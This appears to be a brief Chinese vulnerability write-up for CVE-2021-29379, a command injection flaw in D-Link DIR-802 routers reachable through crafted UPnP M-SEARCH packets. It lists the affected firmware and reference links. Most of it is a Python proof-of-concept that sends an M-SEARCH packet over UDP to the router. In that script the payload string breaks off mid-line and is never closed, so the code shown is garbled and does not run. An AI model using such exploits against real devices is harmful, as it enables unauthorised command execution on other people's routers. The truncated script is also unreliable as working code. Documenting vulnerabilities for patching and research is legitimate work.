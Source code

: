 # D-LINK DIR-802 命令注入漏洞（CVE-2021-29379）


DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

受影响设备及软件版本

DIR-802 hardware revision Ax before v1.00b05

PoC：

```py
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```

ref：

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29379
* https://cool-y.github.io/2021/03/02/DIR-802-OS-Command-Injection/